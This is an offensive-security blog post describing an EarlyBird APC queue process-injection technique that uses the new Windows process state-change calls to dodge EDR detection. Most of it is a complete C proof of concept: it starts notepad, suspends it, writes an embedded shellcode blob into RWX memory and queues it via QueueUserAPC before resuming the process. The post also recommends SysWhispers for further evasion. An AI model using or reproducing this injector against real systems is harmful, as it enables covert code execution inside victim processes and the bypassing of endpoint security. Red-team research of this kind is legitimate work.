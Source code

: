 ```yaml
---
layout: post
title: EarlyBird APC Queue Injection With a ProcessStateChange Twist
tags: []
---
```




Relatively recently, Yarden Shafir made a blog post about a new way to evade the EDRs for process injection. In the blog post, Yarden mentions that there are new added features in the recent Windows 10 build(Insider) and Windows 11 as well. Some of them are NtCreateProcessStateChange/ NtCreateThreadStateChange and NtChangeProcessState/NtChangeThreadState.

These WINAPI calls were added to resolve the issue of what happens if a process suspends a thread and then terminates it before resuming it. To quote Yarden:

Unless some other part of the system realizes what happened, the thread will remain suspended forever and will never resume its execution. To solve that, this new feature allows suspending and resuming threads and processes through the new object types, which will keep track of the suspension state of the threads or processes. That way, when the object is destroyed (for example, when the process that created it is terminated), the system will reset the state of the target process or thread by suspending or resuming it as needed.

Yarden has made a PoC at the bottom of the blog potentially continuing a suspended thread, due to these aforementioned new WINAPI calls, a suspended application can now resume or reset. By using DuplicateHandle and getting the second notepad a handle to the first suspended notepad, the suspended notepad remains as is until the second notepad closes and resumes the first notepad without using ResumeThread.


Evading common process injection patterns for WINAPI calls can definitely trick some EDRs. Although I took a different approach in my PoC and followed the pattern of EarlyBird APC Queue Injection and instead of creating a suspended process, allocate shellcode and ResumeThread, I created a process, suspended it with NtCreateProcessStateChange, allocated the shellcode and then changed the suspended state back with NtChangeProcessState to continue the primary thread.

Obviously the below code will be detected due to the shellcode, VirtualAlloc, WriteProcessMemory, QueueUserAPC but SysWhispers can help you replace that will the ntdll's WINAPI calls for better results.

PoC:

[![](https://trickster0.files.wordpress.com/2021/08/poc.png?w=1024)](https://trickster0.files.wordpress.com/2021/08/poc.png)

<pre>
  <code class="C">
#include <Windows.h>
#include <stdio.h>
#include <winternl.h>

typedef NTSTATUS(__fastcall* NtCreateProcessStateChange)(OUT PHANDLE StateChangeHandle, IN ACCESS_MASK DesiredAccess, IN POBJECT_ATTRIBUTES ObjectAttributes, IN HANDLE ProcessHandle, IN INT Unknown);
typedef NTSTATUS(__fastcall* NtChangeProcessState)(IN HANDLE StateChangeHandle, IN HANDLE ProcessHandle, IN ULONG Action, IN ULONG64 Unknown1, IN ULONG64 Unknown2, IN ULONG64 Unknown3);

void main()
{
    HANDLE stateChangeHandle;
    PROCESS_INFORMATION procInfo;
    PROCESS_INFORMATION procInfo2;
    STARTUPINFO startInfo;
    BOOL result;
    NTSTATUS status;
    NtCreateProcessStateChange	pNtCreateProcessStateChange;
    NtChangeProcessState        pNtChangeProcessState;
    HMODULE                     hNtdll;
    unsigned char buf[] = "\x48\x31\xc9\x48\x81\xe9\xdd\xff\xff\xff\x48\x8d\x05\xef\xff\xff\xff\x48\xbb\x4f\x6c\xaf\x32\x7e\xe4\xec\x88\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xb3\x24\x2c\xd6\x8e\x0c\x2c\x88\x4f\x6c\xee\x63\x3f\xb4\xbe\xd9\x19\x24\x9e\xe0\x1b\xac\x67\xda\x2f\x24\x24\x60\x66\xac\x67\xda\x6f\x24\x24\x40\x2e\xac\xe3\x3f\x05\x26\xe2\x03\xb7\xac\xdd\x48\xe3\x50\xce\x4e\x7c\xc8\xcc\xc9\x8e\xa5\xa2\x73\x7f\x25\x0e\x65\x1d\x2d\xfe\x7a\xf5\xb6\xcc\x03\x0d\x50\xe7\x33\xae\x6f\x6c\x00\x4f\x6c\xaf\x7a\xfb\x24\x98\xef\x07\x6d\x7f\x62\xf5\xac\xf4\xcc\xc4\x2c\x8f\x7b\x7f\x34\x0f\xde\x07\x93\x66\x73\xf5\xd0\x64\xc0\x4e\xba\xe2\x03\xb7\xac\xdd\x48\xe3\x2d\x6e\xfb\x73\xa5\xed\x49\x77\x8c\xda\xc3\x32\xe7\xa0\xac\x47\x29\x96\xe3\x0b\x3c\xb4\xcc\xc4\x2c\x8b\x7b\x7f\x34\x8a\xc9\xc4\x60\xe7\x76\xf5\xa4\xf0\xc1\x4e\xbc\xee\xb9\x7a\x6c\xa4\x89\x9f\x2d\xf7\x73\x26\xba\xb5\xd2\x0e\x34\xee\x6b\x3f\xbe\xa4\x0b\xa3\x4c\xee\x60\x81\x04\xb4\xc9\x16\x36\xe7\xb9\x6c\x0d\xbb\x77\xb0\x93\xf2\x7a\xc4\xe5\xec\x88\x4f\x6c\xaf\x32\x7e\xac\x61\x05\x4e\x6d\xaf\x32\x3f\x5e\xdd\x03\x20\xeb\x50\xe7\xc5\x14\x59\x2a\x19\x2d\x15\x94\xeb\x59\x71\x77\x9a\x24\x2c\xf6\x56\xd8\xea\xf4\x45\xec\x54\xd2\x0b\xe1\x57\xcf\x5c\x1e\xc0\x58\x7e\xbd\xad\x01\x95\x93\x7a\x51\x1f\x88\x8f\xa6\x2a\x14\xca\x32\x7e\xe4\xec\x88";
    SIZE_T shellSize = sizeof(buf);
    stateChangeHandle = nullptr;
    ZeroMemory(&startInfo, sizeof(startInfo));
    startInfo.cb = sizeof(startInfo);
    result = CreateProcess(L"C:\\Windows\\System32\\notepad.exe",NULL,NULL,NULL,FALSE,0,NULL,NULL,&startInfo,&procInfo);
    HANDLE victimProcess = procInfo.hProcess;
    HANDLE threadHandle = procInfo.hThread;
    hNtdll = GetModuleHandle(L"ntdll.dll");
    pNtCreateProcessStateChange = (NtCreateProcessStateChange)GetProcAddress(hNtdll, "NtCreateProcessStateChange");
    status = pNtCreateProcessStateChange(&stateChangeHandle, MAXIMUM_ALLOWED, NULL, procInfo.hProcess, 0);
    pNtChangeProcessState = (NtChangeProcessState)GetProcAddress(hNtdll, "NtChangeProcessState");
    status = pNtChangeProcessState(stateChangeHandle, procInfo.hProcess, 0, NULL, 0, 0);
    LPVOID shellAddress = VirtualAllocEx(victimProcess, NULL, shellSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;
    WriteProcessMemory(victimProcess, shellAddress, buf, shellSize, NULL);
    QueueUserAPC((PAPCFUNC)apcRoutine, threadHandle, NULL);
    status = pNtChangeProcessState(stateChangeHandle, procInfo.hProcess, 1, NULL, 0, 0);
}
  </code>
</pre>

Sources:



EarlyBird APC Queue Injection - https://www.ired.team/offensive-security/code-injection-process-injection/early-bird-apc-queue-code-injection


NtCreateProcessChangeState Blog Post - https://windows-internals.com/thread-and-process-state-change/


NtCreateProcessChangeState gist example - https://gist.github.com/DownWithUp/80a3b7b6a198788e79d8b508463e9384
